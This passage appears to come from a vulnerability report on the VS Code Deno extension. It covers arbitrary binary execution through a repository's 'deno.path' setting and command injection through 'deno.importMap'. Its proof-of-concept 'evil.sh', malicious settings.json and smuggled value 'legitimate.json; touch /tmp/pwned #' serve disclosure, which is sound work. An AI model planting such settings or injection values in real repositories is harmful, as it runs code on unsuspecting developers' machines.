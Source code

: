 5. This function is called when the extension activates or when certain commands are run

The core issue is that the extension blindly trusts and executes whatever binary is specified in the `deno.path` setting, including binaries located within the potentially untrusted repository being opened.

### Security Test Case
To demonstrate this vulnerability:

1. Create a malicious executable for the target platform (e.g., a bash script for Linux/macOS or a .exe/.bat file for Windows)
   - For Linux/macOS:
     ```bash
     #!/bin/bash
     # evil.sh
     touch /tmp/pwned
     # Also mimic expected behavior to avoid suspicion
     if [ "$1" = "lsp" ]; then
       sleep 10
     fi
     ```
   - Make it executable: `chmod +x evil.sh`

2. Create a `.vscode/settings.json` file in the repository:
   ```json
   {
     "deno.enable": true,
     "deno.path": "./evil.sh"
   }
   ```

3. When a victim with the Deno extension installed opens this repository in VSCode, the extension will execute the malicious script

4. Verify that `/tmp/pwned` file was created, indicating successful exploitation

This vulnerability is especially dangerous as it requires no user interaction beyond opening a repository, making it an effective supply chain attack vector.

## Command Injection via Import Map Path

### Description
The Deno extension allows specifying a custom import map via the `deno.importMap` setting. When executing Deno commands (like running tests or tasks), the extension uses this setting to build the command line arguments without proper validation or sanitization. Since the path is used directly in command arguments, an attacker can craft a malicious import map path that contains shell metacharacters to inject additional commands.

Step by step exploitation process:
1. Attacker creates a repository with a `.vscode/settings.json` file containing a malicious import map path:
   ```json
   {
     "deno.enable": true,
     "deno.importMap": "legitimate.json; touch /tmp/pwned #"
   }
   ```
2. When the victim runs a Deno test or task through the extension, the malicious path is passed directly to the command line
